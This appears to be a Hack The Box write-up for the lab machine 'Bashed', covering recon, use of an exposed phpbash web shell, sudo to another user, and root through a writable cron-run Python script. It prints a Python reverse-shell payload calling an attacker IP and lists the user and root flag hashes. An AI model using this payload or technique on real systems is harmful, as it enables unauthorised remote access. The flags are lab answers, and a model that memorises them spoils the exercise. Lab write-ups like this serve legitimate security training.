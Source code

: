 ```yaml
---
layout: post
title:  "HTB Bashed Linux"
description : Techniques used, cron-jobs hickjacking, sudo permissions
tags: HTB, linux, python, sudo, cron-job
---
```



# Recon
Nmap scan
```ruby
Nmap scan report for 10.10.10.68
Host is up (0.022s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder
```


Dirbuster scan
![](https://lh3.googleusercontent.com/p-Az8pLCCTYFiLlCET_o0v7tApv-cTEcdmdJV-DyvqIGcGfYpQLFuim_jF3KDWhSrIc9DRErwMY7sFOffstVjceAfYJUHs_Vhq3DczRAGGDDFzHDSYkVQBM_bQxo33LG60o7-GYwIkIE4P5ma35h7H8IIstoZ3GIqqcxV4hVvdEMzLKACD07Ki5ASb1GSp5cw9s_XFues8tREQoOtRQdkICwWzdkB7qbYZHdHMw3uh8ZVZ5jNJDbmaOKkWy_RI1LOXoSV3OJU36VXtgpRVqpAu0ciDdHK3MLkUwBavIDFunv4f46pWujHZGUZE68pue4UOVqSbUHLcSptrk3trAd2pEW_cSa6XGIrtvaPOXRtN9i8aUj-j1AxXslr9BReBPU5Q8D_7OalQ3Rhm0crohqJWbyO4y7QpgFBsZErLqMWXjsRzZzmE68X-yvjFlzOYhg6auzm8xjoZIvuq6hi7giF0lPuA7STUGMFxGDKCh-KVV31MIyGSHrwNcLAzr1L2DnwFEJRCXDEloTTtKRHyN3ZPPzWM5owANdFTX6ZkvgfxerDlIc2ucFSwRk3YBESPsRp9bOyVfn3EJpbItc5ynKJMj2ZRjcRIf34EU42mAgBroULlkLojoXL0EzIech5s-8I_dDAxcRxRnRmKY9ydQTsGLE7-5wN8R4diGYsrkIiGEu8Naj2QbRf1U=w533-h340-no)

We access the web app running on port:80 and quickly noticed that is running a `phpbash`. 
Furthermore, we investigate the `dev` folder and we encounter two php scripts deployed
![](https://lh3.googleusercontent.com/rHt8sWBKRtNiW-cqbo5Ww3wBmFYzSUhB5gW15CwDLd9-JIXQmY54qC52-YNjK9696pECh6s9p0KeHLDUo3fsfqqOkNt8kYMZpgFvDEdKuQs5wuKpGXJx5kxaVy3C2eHhPH5_X62cUfFIDVJP_PFu6W24Oqw5R58OxqPuiXtViF_gXJuZSwXqqSqtdfxFpU68uk5Y_29EJAHnoJzSd35SfmrWv--sSeDHYfbAQI8YzWVn-QoURCj39mnEFO61YZ64Uu85aaTJy02XMWVmjZD5H3Q1XdUgwYbr6sAFfl5Z7MbNhSWmJ2UnNdBJdub8rY_pbqprawbxtmp528jocKQKh3p11RrqiNBisZIX9AXH4_l8vpo6tFRMBSR7uGdZGfGF5YtvuaK7kWKr6nhkn3F3rLG-cS5qTg0vOhT6mYtn5cOEHDaXjT8cQ2Na8o1czFGkhvxxDqbeTG8lEAt0JDZNXKl5mmIMrj7mvmTAHxfERjPHRbF1-EoCzAwhApiujhp0KDbDZehlCSPDALwf_I4ircv2v7hUFjUc8wnTu3N9hUXJcaJpMzGgljImPr3JpvAGKKsbFDWehc_w9-1rkOO_wZh8iramVzMs8CiKSmU3tp2R0bnZzOj-nKnASjdQT-MG5AvlZ2sQeHo1aKsbjyQOV6nAHMp9LeU95F-eFho9pVRSOURUWmLIXlM=w468-h295-no)

we run the phpbash script and we find out this is a backdoor shell that connects to the targer machine.
![](https://lh3.googleusercontent.com/-MJGoTGb1t21rtxi0eI5TjHfBSSbn2B11_r2CKwBJ8vhrvPEr1IuoLtMcO1qNyEd2c6B_oTDCLGOfER_sPgXGG7rd5ksOI_CP7KmQa8EKFWSCOOfbp2AOtxJoEF088SES-fvxRFAI9kvdc0hYwViv5PVymG_yliJ9qzHnCXntBTVdzPKqXVfby8X_pPp6dORLK4pfN_PpkeKiNcwQHxnICTdyRJw44AE2najx1NZ7pRGolnKKP56fu7RGHDylQS3WvFdaZgvJ3spQkCWMh_Z7HzUzVPSA-BgtS636OD4IIcwG8EpUKmIiIfv2xjyAHSwzRI8v1R_g0bh2kV-Gyq911x-3b6ob2b_HhZSFBB3TqF-wCKGcUmjFG0V8f00U9hRYQyWEJVzOzJYcj2kWNqzb_KldAX138rsQCCjgClAGm6GBRWyFR7nwHw2HUhDfALGOe5I_VH4j-fUsT4K8vcuz7DPy6aBU8S2k7oWd9smm5LwN8HxelJ7nOPVgfQt9Rn4HZjKLFV8JYT4Ci5ZdAlKghbUN2pIqjBynOQaku-JX0Ce2JdJ_4qtjDVmN-DdExbOkVRIflPTyNHfg9CIeUknY3DfZOm8jFzmhw1T580Lwwd_7fdmaWfXmr_HL9upftTfpcT-csU-vyXGZMe6YiLaoLvsW6rurkKz_9ib1BEMPV6Y03S0PiCwibA=w842-h213-no)

However the shell is not interactive. so I use nectcat to transfer a `tcp_pty.py` python file to satisfied our needs.

![](https://lh3.googleusercontent.com/tqfU55RRL9rnsrmJu14kSTNEuoF163nki3XVFojCv45FcqFyLij2ufqxkxeS0-aP2BtGGhABm6ZKHNuctax8n12a6Oti8S9ZVLKHeUzjHyi-an8RsVjqNgVdlZm8kuI5fPTPIfHi4Tfg_RxFw_ijHbreaggUtIDsloBkgggnJgvgZfjjhpannxal-rJCglRtBCzID7CcICeKXQUMI7YTJq8oUSSJSzAnaZ_Er-0GiOtDllGwAi7sXJ0v8B6Dc04W8I_9SZBwyfpSusi5gtr4vTRnHo3pIyvcHeIUJZLKeW3xfc_dCEdj_THcAtPE7rNgvPzxn3mb9-K92JkJYhiyPGuCh0u6X-1YGHSjth6PO7uq3N20v0ctsR_Pr8RCE0yY5Smw7imYwkttt6UrcC6h99kJcF0tvjyx_pVcCARYb_9JcI6IAkcwRQT--96u0FdN_XUbiRbK0UyvPg-KnyyCcj_NY9ZT4v96woWQQaNf5Vgbq26SCPWsjHyyw3kPDyBZYLtZxhaFOv-GvJldcxz1CptsBgkmpERJkJ51a5QwNg4jQpt1ewnatddS3JhbDxQ3H3QWC51qCXlqeBajw7xIAsJeNvPZq-Ats_L1wLTG7EVlJBXdTJwhxpYqkgpomPIFBYaVaBL-md4K0coBAaG7HUXcO_zwoP8Kv3y1LlmY2Kjyj5W7E4V7Uy0=w894-h397-no)

![](https://lh3.googleusercontent.com/evvfMIper2SfsSvgR5pysRX29meAvgfSb7fTA555xU927NyFVVauAVqEMUp4uAFpNXH9umzzgA-rYKvgw11k_z0x5Lu2aZ3ZmmhOliUDRSQ7s_qQMihu5cGEoEN7EQPYsjRxrP6OaPMitDsz5_RZjnOgc7LoNzpeSRhcaOea3GhrLiVzwdVdvEBM3fgVSdciFjf8_Thv5hNyZ_QTHm-UI0_FI1Dfak_GP_7tLQBrHSn_yvD37WeoEz7g2v73ZN_fRFMChv-EM8R1Yk5DEOsRGJrUnTK9PbmGIb_qz6cBGRT3m3XX0ANTNnb5O1QcZc_K6coXLi1CuXMgUVB40fOT9HgGG1rQBL5DHl9bSiwBOdaP19l87_AygXtR2eNMT3W5Eqo8OahWoXcgz0kBevlAJ7rRJWbDRYZ62fKMnGe7-tPMutiIiYbnFe_JAVJQooXrOGJhvs18sEo2TBMjH91sUsRcRkPBPSS-qRjsnsGuM3HD8ghyB1kHvvSZHA0owPjA1x3uunVQ_wW-nEdD2JqXO-q_TV57spPJVvSPS2XvHCnmWwwAR7BAPKf7WEksMLCwUVsONl7jAhlBgUfYHmSZrbYNXFs6zQSGPDzbbDSqnvbdz77t-Q0Wn130d1559wqYJNuamx2623hSbCC4uwtb7BvCQ1jon8V80BMWkmlBaDYEUKJZyJychsw=w1180-h354-no)


# Exploitation
We run LinuxEnum and we noticed that we are able to sudo commands without passwd for user
**scriptmanager**

![](https://lh3.googleusercontent.com/1vF8x_ngRjD6Fy-Wi-B9fjLE-1M8SX8sa-YcNzPY00epfNJq9h15EDCF3thztjSY0ZSmqX0XaO40qf2_FDighO3qvdll_1-EcXP6MC1WN8XuMPuBWep8GqkDoxicbeuPUxSNyXwP9JZLOuGK5xdFniik6um0xLWMP3O_x-WtoaEx3SEllnoxTW_B3IhjxtyfDhb7yeZIJ4DW4bVzBKPpuaRVKtBZ_RfMgwtDnW-fK7F5a9zRZvh30ffDnEdVEV08meoapAj0s1jbYDRTAHV5ILEmlbAV9J_B66P1OhY6K5QKhVytI9cvJQ4CgTiteyQWSEmmXpt_qgD0b84fXBZ_LYLbBTT5SQ8sBT_s5nVKfvLnVauuSLJ0QnXmxV-wq3zUJS0suSgEUYkxuxrCah56r5_cuAUEnNfyHsWvI3XigoC0AFMU_yq3hYUfBNhB863xrGsBX6hf8DoYhOIprLxMSgXNE9YtULEFDD8Y5b7KMtl_hdFdfiWbcU2uPrD6-Cv3ZHse7mXEWvmpNqgdQaJIkYZnJceGVxdsHGfvjTZnSMFCa8QBKm4XLFLeC1AsYo1v4HWRunbwVQmO7hRIn4CmDZieiJkB5t51CqJ1-h3b5PiK3PhzMWMuJkk-3W-vwTpxYNQrCdi6fEnFNKfTSzp_--LuiXw5Bb2ed8TAZLRZLylhBJMjoiiu5dc=w912-h121-no)

```ruby
sudo -u scriptmanager whoami
```
```ruby
sudo -u scriptmanager bash
```
![](https://lh3.googleusercontent.com/9yx1EPOA3p-E7IO7jwguOezkX13GBLgZoxnMvxiYcrrmBfHROedL9ZClsvMt_vbibWyGTPX1uJ7Z1Fm_2i04TKFYoQsZi7hdTC1xSUKxVzD8zpST9ESyUNbqOzzOFh3drCxDQdrf8cDbRKWu02-qFGHan7yKxZrnZIJeTTqOokdpiSoyPsG-pBX8uxFdhPX3qieWlPOqpRhJYlKVHOkcATLqy15pQGwaFVzYbIZ35J2RPBBT97JFTMJQQzjfYih6bGGGMabT5cKaSxz-4FDtdTA4fTwwtLeOKiXu6T_-x3Z1DIwndh7fNqczc_BDBbM79Sf9RJC8yVl8ZzhNcxFIvXxxVoT6-PT4G95QLTaRWt-oRnSeqSDiPk6YR7rjpGu0BqUsMBsuDsxKaMAiWMJt_HoXXSaNL4sRi19anU44bwIP2eU6LvhtRffbCFUIGubdk_rc5dTQHp4KQqdJHDwlq34sCj_XF7ZZZVBcppg9_yqa6GzM6Lu4Y_Ywf7yhLta4EH1RQXiTIDoFGnBDlD5cbG_BmgELuMlffAHmk4OQE6tVH0evgWkcR2ESTRQohcCa9lPMa7e6aSn4k6_GGufmYM3Cjk1bqef7ToeDc5pwhHrvA8CHwMckwRsLwHrAE8_BTjksJxxVcvxN7k4--YSc1lyXi3L7vaAJdjxH7CvPfhVD86gdKeCcZHE=w603-h243-no)

# Privilege Escalation
As scriptmanager user we locate a script folder that contain 2 insterested files
test.py and test.txt. Test.txt is owned by root but the text.py is owned by scriptmanager
The text.txt file is update every minute so this is a cron job
so we modified the python file to pull to call for a reverse shell
![](https://lh3.googleusercontent.com/G6p-UTwhnYCXBurI6bDEabPozrK9dBjiweY5QT7Fo9ZiVBZcqQjDx-tZm27RsXnik1pwEja8decnNZo8v8Q-9T4qoYU-yWiJlHEmfnjixLKXJ2ksJfaeaRKK5sOJs-jp3-xDyRfRL_1Zk5WZCAxkEpqIxsvXD0uH-fsPpPI_m4eYgNEjtJTGiVmzMSVhMVSFQ4MZuel0iSQkI22PmB9ZUBjqCCp6_u_L10FtTvA3PIXMCIuGKuwVxHL30UF7WjP1va6zJQW9O7Lkx0ba3vNUK3k4S-skgPkuswN1wbV8gBM7RGtdsLhJhy2qvC5Ho-gZx3AAmPyOa3jlG1JQXduQj_xVd24-8SVHxTE25iqGMxOTNmlLxHG3jKLJ-mU2Lgs8A9lJ-ljv1bMZcNyqCiWCpFkEHVnt4aE1w6NuAUNt1P_lbCOgcTolAwIazkeum5D1o_d-w7nXb_NcUfkCvPCpWE8QkkPx-CWxtLAYuOLGRm4fiHLPoOG_sDtY9_bWdBNH0gHdZTL5DIV3K81PGCHB-TGXUJWJnRLmuKsQ-JlJICyVmT4FQAiMI20Wx3-lmLs_wUOH12N-XUoDFzasPwzdVcp65NuwDFm5rB6bwFgnQte77ENC9JCMvKpTaPABsBiMGsdRXKnL_-bNnpCfNJXw8Jo7wLHCsOYuXfpl3yvGUTsmBhLtgS5udVM=w558-h27-no)

```perl
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.25",9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
![](https://lh3.googleusercontent.com/4spYvwMX11ocp0JnpHnTzPURbWJxRiIaIzhFbkWfPVDwZHKI-4MScg1wEFuujKMpQ2yzxHJd7APAnW5a1JXSXqB5NLTX8ghfxRZWosnCWfdI_HzIF-ORpziOeZlJiDLUt1yMjwD7KfCZ1OLDqZATjxgXCGLBfCNmvltUCdP2szVXF34MiF4ZZRlqgO4fmOT63wckfbvPge6S0R-Q9Bf2KmSv3nRg_BlwJThwpxX8sz2POnU9k6w1FyHlnZbdJ8LNs8nudFtb_qTM4gN9quAE_UeRjTkv-yg4DprYfUBfTMGwWOC5XVU6ApllJItREkEr_ySq-ysIvQkD9nY-Rgb-jxVp7HzcKbjOh-DwnEMU0NWa4IRifxbHeLo7Mi0FP-FvxcJFlUNXv4vw5eQWw6eXXnAxBDNS0da0TFU0l-f5ae3yf6P8Y16m8yM6jYAnC_o_MtpzB6srYIAeEEo8V5soKQLQjDI1yKL4nZqpheR4CtnvmwYhJmUZEUPzCnIkcELNk3FqgRfwUrF43puCwnajrSAX4lv3vBoigJFACJ27R_grvayEH_33HP-bBgn3fYsOHExO9OZkoFAdw0xA4uRkYsxih3V9CoTUJIg-0J78fnv6TE8vF2DF0jYSqefSb7_fhgqb63jdasOfCSBqPOJo78hc9Jcm0b8bynD7pQwOp_RJC0UP3eFBBNE=w607-h194-no)

# FLAGS
```ruby
ROOT  "cc4f0afe3a1026d402ba10329674a8e2" 
USER  "2c281f318555dbc1b856957c7147bfc1" 
```
